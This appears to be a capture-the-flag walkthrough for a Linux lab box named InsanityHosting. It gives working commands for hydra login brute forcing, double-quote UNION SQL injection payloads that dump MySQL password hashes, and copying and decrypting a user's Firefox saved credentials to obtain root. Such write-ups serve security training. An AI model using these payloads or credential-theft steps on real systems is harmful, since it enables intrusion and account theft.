



# Lab Info


| Name            | Os    | Difficulty |
| --------------- | ----- | ---------- |
| InsanityHosting | Linux | Advance    |

- View the investigation board in the [InsanityHosting Canvas](/write-ups/insanityhosting/#canvas)

---

# Recon
## Nmap

```bash
nmap -sCV --min-rate=1000 192.168.126.124
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: ERROR
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.170
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 85:46:41:06:da:83:04:01:b0:e4:1f:9b:7e:8b:31:9f (RSA)
|   256 e4:9c:b1:f2:44:f1:f0:4b:c3:80:93:a9:5d:96:98:d3 (ECDSA)
|_  256 65:cf:b4:af:ad:86:56:ef:ae:8b:bf:f2:f0:d9:be:10 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.2.33)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.2.33
|_http-title: Insanity - UK and European Servers
Service Info: OS: Unix
```


- found 3 open ports
1. `21` -> Ftp
2. `22` -> SSH
3.  `80` -> apache server

---

# FTP
- anonymous login is allowed

But nothing there 

---

# Web (80)

- Something related to Servers & monitoring


## Fuzzing
```bash
┌──(kali㉿kali)-[~/.mozilla]
└─$ ffuf -u "http://192.168.241.124/FUZZ" -w /usr/share/seclists/Discovery/Web-
img                     [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 77ms]
data                    [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 79ms]
news                    [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 79ms]
fonts                   [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 98ms]
webmail                 [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 98ms]
phpmyadmin              [Status: 301, Size: 242, Words: 14, Lines: 8, Duration: 96ms]
js                      [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 4504ms]
css                     [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 5536ms]
monitoring              [Status: 301, Size: 242, Words: 14, Lines: 8, Duration: 99ms]
licence                 [Status: 200, Size: 57, Words: 10, Lines: 2, Duration: 
```

- there are 3 interesting things
	1. /webmail : a login page
	2. /monitoring : a login page
	3. /news : a spicy news

---

**/webmail**
- 


**/monitoring**
- 

## /news

- look special  thanks to -> otis (maybe username) 


---
## login page bruteforce

- lets bruteforce /webmail login page , with possible username **otis**

```bash
hydra -l otis -P /usr/share/wordlists/rockyou.txt 192.168.126.124 http-post-form "/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:incorrect"
```

```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-06 13:21:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.126.124:80/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:incorrect
[80][http-post-form] host: 192.168.126.124   login: otis   password: 123456
1 of 1 target successfully completed, 1 valid password found
```

- yeeeeeeeeeeee got password
`otis:123456`

---

## /webmail

- logged in as user otis


- just a empty mail inbox

---

## /monitoring

- same creds `otis:123456` worked here


- its a dashboard , which show added server status UP/DOWN
- we can add server

- **interesting text on page** : if server is down it will send e-mail
	- may be mail will come to `/mailbox` inbox

---

- first i thing if it check server UP/DOWN it can be command injections
- i tried too many but it didn't worked
	- because it never check by active checking server
	- i put by ip in dashboard and i don't get any request (confirmed not active connection)

---

## Sql Injection

then time to do sql injections


- I added a server ip which is DOWN, and i got mail in `/webmail`
	- the output in mail look like a Sql DB struture


| id  | host | date | time  | status |
| --- | ---- | ---- | ----- | ------ |
| 48  | test | 2026 | 05:48 | 0      |
| 50  | .    | .    | .     | .      |


### Finding injection payload
- i tried common payload `'or 1=1-- -` in name field, but after looking its result in mail it use **double-quotes** 


- so next i tried double-quotes `"or 1=1-- -` & we got all rows from table & system name in name table (localhost) : so there is `SQLI`


### Finding No. of Columns

- after trying a-lot got no. of column by `"union all select 1,2,3,4-- -`

### Finding DB, tables, creds

- by using `information_schema` we can find db names, tables, columns

1. `"union all select schema_name,2,3,4 from information_schema.schemata-- -` : to get db names
	- add server entry
		
	- result
		


2.  Find tables in db `monitoring` , `mysql`

	 `"union all select table_name,2,3,4 from information_schema.tables where table_schema='monitoring'-- -`
	 
	 `"union all select table_name,2,3,4 from information_schema.tables where table_schema='mysql'-- -`

- Found spicy tables :  `user` & `user`

3. Find columns in Tables `users` & `user`

	`"union all select column_name,2,3,4 from information_schema.columns where table_name='users'-- -`

	`"union all select column_name,2,3,4 from information_schema.columns where table_name='user'-- -`

4. got some user, pass in `monitoring.users`
	`"union all select username,password,3,4 from monitoring.users-- -`
	
	

	- these are useless

4. again got some user,pass in `mysql.user`
	

- `root` one is useless, but we got another user `elliot` but no password for him

- after checking columns again in `mysql.user` found a interesting column `authentication_string` 

	`"union all select User,authentication_string,3,4 from mysql.user-- -`

	

- found `elliot` password hash `5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9`

## Hash crack

- crackstation to crack hash

	

---

# initial shell (elliot)

- `elliot:elliot123` worked on ssh
- 


---

Then i tried many things but got nothing
	- then i got old kernel `3.10` 
- but there is no `gcc` to system to compile the exploit 
 

---


## firefox creds cracking



- firefox directory `.mozilla/firefox` contain  all profiles files including history, bookmarks, opened tabs & user, passwords etc.
- format of profile directory in `.mozilla/firefox` -> `xxxxxxxx.default-release`

important files in dir


| Name               | contains                                       |
| ------------------ | ---------------------------------------------- |
| **`profiles.ini`** | Lists all profiles and their locations.        |
| `places.sqlite`    | Bookmarks, browsing history, and download list |
| `cookies.sqlite`   | Cookies (session cookies are not stored here)  |
| `logins.json`      | Encrypted usernames and passwords.             |
| `key4.db`          | Encryption key that decrypts `logins.json`.    |
etc.

There is nice tool to decrypt the password from firefox directory
- [firefox_decrypt](https://github.com/unode/firefox_decrypt/)

### firefox-decrypt

- first i tried to run this tool in target shell , but tool require python3. which is not installed

so i copied whole `.mozilla` in my machines

```bash
scp -r elliot@192.168.241.124:/home/elliot/.mozilla/ target_dir
```

- run tool
```bash
python3 ~/Downloads/firefox_decrypt.py firefox
```

```bash
┌──(kali㉿kali)-[~/nn]
└─$ cd .mozilla 
                                                                        
┌──(kali㉿kali)-[~/nn/.mozilla]
└─$ ls   
extensions  firefox  nn  systemextensionsdev
                                                                          
┌──(kali㉿kali)-[~/nn/.mozilla]
└─$ python3 ~/Downloads/firefox_decrypt.py firefox
Select the Mozilla profile you wish to decrypt
1 -> wqqe31s0.default
2 -> esmhp32w.default-default
2

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'
****
```

- we got password of `root`

---

# Root

- password worked as root




